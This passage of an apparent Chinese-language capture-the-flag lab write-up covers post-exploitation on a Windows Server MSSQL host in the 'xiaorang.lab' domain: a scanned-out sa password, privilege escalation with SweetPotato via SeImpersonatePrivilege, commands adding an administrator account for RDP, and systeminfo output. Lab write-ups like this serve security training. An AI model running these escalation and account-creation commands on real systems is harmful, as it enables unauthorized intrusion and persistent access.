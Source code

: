 ```bash  
已完成 2/2  
[*] 扫描结束,耗时: 945.630414ms  
```  
得到用户名和密码  
`sa/ElGNkOiC`，利用`MDUT`进行利用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201438814.png)
存在`SeImpersonatePrivilege`权限  
这里，激活`OLE`组件，上传脏土豆进行提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201440446.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201441775.png)
## flag04  
`C:/Users/Public/SweetPotato-new.exe -a &#34;netstat -ano&#34;`  
`3389`是开启的状态，直接添加用户连`3389`  
```  
C:/Users/Public/SweetPotato-new.exe -a &#34;net user huahua 123@qwer! /add&#34;  
C:/Users/Public/SweetPotato-new.exe -a &#34;net localgroup administrators huahua /add&#34;  
```  
`systeminfo`  
```powershell  
C:\Windows\system32&gt;systeminfo  
  
主机名:           MSSQLSERVER  
OS 名称:          Microsoft Windows Server 2016 Datacenter  
OS 版本:          10.0.14393 暂缺 Build 14393  
OS 制造商:        Microsoft Corporation  
OS 配置:          成员服务器  
OS 构件类型:      Multiprocessor Free  
注册的所有人:  
注册的组织:       Aliyun  
产品 ID:          00376-40000-00000-AA947  
初始安装日期:     2022/6/8, 16:30:01  
系统启动时间:     2025/4/20, 14:13:13  
系统制造商:       Alibaba Cloud  
系统型号:         Alibaba Cloud ECS  
系统类型:         x64-based PC  
处理器:           安装了 1 个处理器。  
                  [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz  
BIOS 版本:        SeaBIOS 449e491, 2014/4/1  
Windows 目录:     C:\Windows  
系统目录:         C:\Windows\system32  
启动设备:         \Device\HarddiskVolume1  
系统区域设置:     zh-cn;中文(中国)  
输入法区域设置:   zh-cn;中文(中国)  
时区:             (UTC&#43;08:00) 北京，重庆，香港特别行政区，乌鲁木齐  
物理内存总量:     3,950 MB  
可用的物理内存:   1,411 MB  
虚拟内存: 最大值: 4,654 MB  
虚拟内存: 可用:   1,017 MB  
虚拟内存: 使用中: 3,637 MB  
页面文件位置:     C:\pagefile.sys  
域:               xiaorang.lab  
登录服务器:       \\MSSQLSERVER  
修补程序:         安装了 6 个修补程序。  
                  [01]: KB5013625  
                  [02]: KB4049065  
                  [03]: KB4486129  
                  [04]: KB4486131  
                  [05]: KB5014026  
                  [06]: KB5013952  
网卡:             安装了 1 个 NIC。  
                  [01]: Red Hat VirtIO Ethernet Adapter  
```